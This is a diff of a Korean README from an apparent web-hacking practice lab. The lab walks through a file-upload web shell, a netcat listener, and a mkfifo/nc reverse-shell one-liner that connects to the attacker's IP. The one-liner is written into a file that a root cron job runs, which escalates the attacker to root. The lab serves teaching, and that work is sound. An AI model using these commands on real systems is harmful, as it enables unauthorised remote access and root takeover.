

Before and after one commit to dukbong/WebHacking, a Markdown page: 2025-06-fileupload/README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/2025-06-fileupload/README.md
+++ b/2025-06-fileupload/README.md
@@ -49,8 +49,8 @@
 
     ```bash
     vi /etc/cron.d/fileupload
-    # vi가 없는 경우 apt update && apt install -y vim-tiny
 
+    # 해당 스케줄러 실행 시 root 권한으로 실행됩니다. ( 권한 상승 지점 )
     * * * * * root /tmp/fileupload
     ```
 
@@ -95,21 +95,25 @@
 
 1. 웹 페이지 접속 후 임의의 PHP web shell 파일 (예: `shell.php`) 업로드 합니다.
 2. 업로드 성공 후 `/uploads/shell.php` 로 접근합니다.
-3. 입력창에 작성한 명령어가 실행되어 결과가 출력 되는 걸 확인합니다.
+3. 입력창에 `id`명령어 작성 후 결과가 출력 되는 걸 확인합니다.
+    1. `uid=33(www-data) gid=33(www-data) groups=33(www-data)`
 4. `/etc/cron.d` 폴더 안에 있는 `fileupload` 파일을 확인합니다.
+    1. `cat /etc/cron.d/fileupload`
 5. 공격자 PC에서 `ifconfig`를 통해 IP를 확인합니다.
 6. 공격자 PC에서 `nc -nlvp 9999`로 9999 포트를 리스닝 합니다.
 7. `Reverse Shell Cheat Sheet`를 활용하여 스크립트를 만듭니다.
     1. 참고 사이트 : https://www.revshells.com/
-    2. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|**sh** -i 2>&1|nc 공격자IP **9999** >/tmp/f`
+    2. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 공격자IP 9999 >/tmp/f`
 8. 아래 악성 스크립를 통해 스케줄러에서 실행되는 파일을 수정합니다.
 `printf 'cheat sheet \n' > /tmp/fileupload && chmod +x /tmp/fileupload`
     1. 마지막 빈줄 삽입이 없는 경우 명령어가 무시되는 경우가 발생합니다.
+9. 1분 후 공격자 PC에서 `id` 명령어를 통해 root 계정을 사용하는 것을 확인합니다.
+
 
 # 6. 참고 사항 (VirtualBox 환경)
 
 - Kali Linux가 VirtualBox에 설치되어 있는 경우
-    - 설정 → 네트워크 → 어댑터1 → **'브리지 어댑터'** 설정
+    - 설정 → 네트워크 → 어댑터1 → '브리지 어댑터' 설정
     - 인터페이스 이름은 실제 사용하는 네트워크(Wi-Fi/LAN 등)로 지정
     - 설정 후 재시작 필요합니다.
 - 동일 물리 네트워크 상의 다른 장비 사용 시 별도 설정 불필요합니다.
````
